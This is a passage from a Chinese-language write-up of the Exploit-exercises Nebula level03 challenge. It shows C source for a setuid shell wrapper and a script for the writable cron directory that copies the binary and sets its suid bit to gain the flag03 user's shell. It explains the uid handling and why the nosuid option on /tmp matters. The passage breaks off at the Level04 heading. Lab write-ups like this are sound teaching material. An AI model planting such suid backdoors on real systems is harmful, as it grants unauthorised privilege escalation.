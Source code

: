既然我们可以构造shell脚本让flag03用户执行，那么我们就可以想办法来直接获取flag03的shell。

编写、编译C程序：

``` c
//bash.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv) {
    if (argc != 2) {
		printf("Usage: bash <uid>\n");
		return 1;
    }
	int uid = atoi(argv[1]);
	setresuid(uid, uid, uid);
	setresgid(uid, uid, uid);
    system("/bin/bash");
	return 0;
}
```

想法是利用脚本，以flag03的身份将上述程序复制并设置它的`set-user-id bit`，然后我们就能以level03用户运行此程序并获取flag03用户的shell。

放置于`writable.d`目录下的脚本内容如下：

``` shell
cp /tmp/bash /home/flag03/bash
chmod +s /home/flag03/bash
```

这里需要说明以下几点：

- 通过查看`/etc/passwd`文件，可以获得flag03用户的USER ID和GROUP ID是996；
- 只设置`set-user-id bit`然后在程序里面直接`system("/bin/bash");`是拿不到flag03的shell的，此时程序的ruid是1004（level03的USER ID）、euid是996，运行程序后依然是level03的shell；需要使用`setresuid()`函数设置ruid、euid、suid。至于`setresgid()`则不是必要的，虽然获取的shell会稍有不同；
- 复制编译出的bash程序是为了改变文件的owner；
- 需要将编译出的bash程序放置在一个flag03可读并且level03可写的目录下，这里选择了`/tmp`目录，但复制的目标目录不能是`/tmp`目录，原因是`/tmp`目录有`nosuid`选项，`suid bit`无法生效，可以使用`mount`命令查看。

![level03](Exploit-exercises-Nebula/level03_2.png)

---

## Level04

题目描述：
